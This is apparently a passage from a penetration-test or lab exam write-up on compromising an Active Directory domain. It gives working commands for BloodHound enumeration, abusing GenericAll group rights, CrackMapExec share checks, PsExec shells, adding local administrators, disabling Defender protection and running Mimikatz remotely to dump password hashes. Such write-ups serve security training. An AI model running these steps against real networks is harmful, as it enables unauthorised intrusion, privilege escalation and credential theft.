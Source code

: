 ## Steps to compromise
Running bloodhound on any of the machines will allow build a graph database of all the users, 
computers, groups, and acls. This will help us determine our next attack path. For this purpose, we 
used the USER machine to run the SharpHound ingestor, and we viewed it in BloodHound. The 
command that was used to collect the information is below:
```
Import-Module .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All,loggedon
```
Once the zip file is ingested in the bloodhound database we can do some more enumeration
![image](https://user-images.githubusercontent.com/25303133/220045040-6c28475c-e810-4150-8869-408a722ebbc3.png)

Since we have successfully compromising DEVSRV and getting the NTLM hash for devsqladmin we can 
look for anything interesting related to this account. Looking at the First Degree Object Controls for 
devsqladmin, we verify that this account has GenericAll rights on the SQLMANAGERS domain group.

This means that we can add any user to this group. With our reverse shell still running as devsqladmin, 
we successfully added the examAd user to the SQLMANAGERS group.
```
net group “SQLMANAGERS” examAd /domain /add
```
Enumerating the SQLMANAGERS group even further, we see a description in bloodhound saying that it 
is Used to manage uatsrv.

We can verify this by running a tool called CrackMapExec 3
to see if we can write to any shares.
```
crackmapexec -u [user] -p [password] -d [domain] [ip] --shares
```
We can Read, Write to C$ and ADMIN$, this means we can run PsExec 4
to get a shell on UATSRV
```
PsExec64.exe \\[instance] cmd
```
Once we have our shell, we add our user the Remote Desktop Users group so we can PSRemote and run 
mimikatz easier
```
net localgroup Administrator user /add
net localgroup “Remote Desktop Users” user /add

$sess = New-PSSession -ComputerName uatsrv.garrison.castle.local
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection 
$true} -Session $sess
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```
Running mimikatz reveals additional users on UATSRV, which are batchuser and uatadmin. We 
successfully grabbed the hashes for both users to use later if needed.
